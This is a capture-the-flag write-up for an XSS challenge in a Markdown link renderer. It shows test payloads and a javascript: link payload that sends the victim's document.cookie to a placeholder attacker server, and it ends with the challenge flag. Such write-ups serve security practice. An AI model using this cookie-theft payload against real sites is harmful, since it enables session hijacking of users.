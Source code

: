 # Writeup

### Challenge available at `https://mistune.flatearth.fluxfingers.net/`

# Description:
 Try to steal admin cookie. Admin will click on ```<a>``` tag. This challenge has XSS vulnerability by which you can use it to steal admin cookie.

# Test:

After searching for a while i found this maybe useful ```<javascript:alert('xss')>```, and the result:
![XSS-Test](https://github.com/quanght55/CTFWriteups/blob/master/hackiu/mistune/images/mistune-test-xss.png)

Then i try ```<javascript:alert(document.cookie)>```, the result:

# Exploit:

After testing, i will try to get current session to my server before send script to admin
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>``` then i receive this:

Now we are ready to steal admin cookie ```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>```

And #BINGO

# flag{92da883eb1df9d1287ff25f1a1099f29}

